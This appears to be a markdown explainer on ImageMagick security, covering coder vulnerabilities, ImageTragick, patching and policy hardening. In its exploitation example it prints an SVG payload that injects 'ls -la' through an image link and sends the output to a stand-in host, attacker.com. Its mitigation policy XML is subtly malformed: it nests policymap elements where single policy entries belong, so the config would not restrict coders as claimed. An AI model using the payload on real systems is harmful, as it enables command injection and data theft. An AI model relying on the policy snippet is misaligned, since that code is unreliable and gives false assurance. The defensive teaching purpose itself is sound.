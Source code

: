 # ImageMagick Security


# 👉 Overview

---

### 👀 What ?

> ImageMagick is a powerful tool used for displaying, converting, and editing raster image and vector image files. It includes a number of command-line utilities for manipulating images. However, it has been found to have significant security vulnerabilities that could be exploited by attackers to execute arbitrary code or cause denial of service.
> 

### 🧐 Why ?

> Security in ImageMagick is important because it is widely used in web services to process images. Its vulnerabilities can expose these services to attacks, leading to sensitive data breaches, unauthorized system access, and disruption of services. Understanding ImageMagick security helps administrators and developers to secure their systems and applications.
> 

### ⛏️ How ?

> Securing ImageMagick involves keeping it up-to-date with the latest patches that fix known vulnerabilities. It is also important to limit the capabilities of ImageMagick to only what's necessary for your application, disable coders that are not needed, and use secure coding practices to avoid introducing new vulnerabilities. In addition, using security controls like firewalls and intrusion detection systems can help detect and prevent attacks.
> 

### ⏳ When ?

> Security issues in ImageMagick started gaining attention around 2016 when a serious vulnerability, known as 'ImageTragick', was discovered. This led to a renewed focus on securing ImageMagick and the development of more secure alternatives.
> 

# ⚙️ Technical Explanations

---

ImageMagick is a widely utilized tool for displaying, converting, and editing images in both raster and vector formats. It's particularly useful because of its command-line utilities that allow for a wide range of image manipulation tasks. However, its usage also opens up potential security risks due to vulnerabilities inherent to the software.

Each image format that ImageMagick handles has its own set of encoders and decoders, referred to as "coders". These coders, unfortunately, can have their own set of vulnerabilities. These weaknesses can be exploited by an attacker to overflow the system's buffer, inject malicious code, or cause other types of damage.

Buffer overflow, for instance, occurs when more data is written into a block of memory, or buffer, than it can hold. This can corrupt data, crash the program, or in the worst cases, allow attackers to execute arbitrary code.

Code injection is another threat where an attacker introduces (or "injects") code into a vulnerable computer program, changing its course of execution. This can lead to serious repercussions like data loss, security breach, or even system takeover.

To mitigate these risks, it's crucial to limit the coders that ImageMagick uses to only those that are necessary for your specific application. This reduces the potential entry points for an attacker. Regularly updating ImageMagick is another essential step as patches are often released to fix known vulnerabilities.

Furthermore, secure coding practices can also harden your system against attacks. These might include techniques such as input validation, error handling, and code reviews. All of these combined can significantly strengthen the security of systems using ImageMagick.

Additionally, using security controls like firewalls and intrusion detection systems can help detect and prevent attacks. These tools provide an extra layer of security by blocking unauthorized access and alerting you to any potential attacks.

Finally, it's worth noting that security concerns with ImageMagick began to gain significant attention around 2016 with the discovery of a serious vulnerability termed 'ImageTragick'. This led to a renewed focus on securing ImageMagick and spurred the development of more secure alternatives.

As an example of how an ImageMagick vulnerability could be exploited and mitigated, consider the following scenario:

1. **Exploitation:**
Suppose we have an image upload feature on a website that uses ImageMagick to process uploaded images. An attacker could potentially exploit a vulnerability in one of ImageMagick's coders by crafting a malicious image file.
    
    ```bash
    convert evil.svg output.png
    
    ```
    
    In this command, `evil.svg` is a specially crafted SVG file that exploits a vulnerability in ImageMagick's SVG coder, and `convert` is one of ImageMagick's command-line utilities.
    
    The SVG file might contain a payload like this:
    
    ```xml
    <svg xmlns="<http://www.w3.org/2000/svg>" xmlns:xlink="<http://www.w3.org/1999/xlink>">
        <image xlink:href="<https://attacker.com/collect.php?data=|ls> -la|" x="0" y="0" height="100px" width="100px"/>
    </svg>
    
    ```
    
    In this payload, `ls -la` is a command that lists all files in the current directory, and `https://attacker.com/collect.php?data=` is a URL that the attacker controls. When ImageMagick processes this SVG file, it could execute the `ls -la` command and send the output to the attacker.
    
2. **Mitigation:**
To mitigate this vulnerability, we can limit the coders that ImageMagick uses to only those that are necessary for our application. For example, if our application only needs to process PNG and JPEG images, we can disable all other coders in the ImageMagick policy configuration file:
    
    ```xml
    <policymap>
        <policymap domain="coder" rights="none" pattern="*"/>
        <policymap domain="coder" rights="all" pattern="PNG,JPEG"/>
    </policymap>
    
    ```
    
    In this configuration, the first line disables all coders, and the second line enables only the PNG and JPEG coders.
    
    Additionally, we should keep ImageMagick up-to-date to ensure that we have the latest security patches:
    
    ```bash
    sudo apt update && sudo apt upgrade imagemagick
    
    ```
    
    This command updates the package list and upgrades the ImageMagick package on a system using the apt package manager.
    
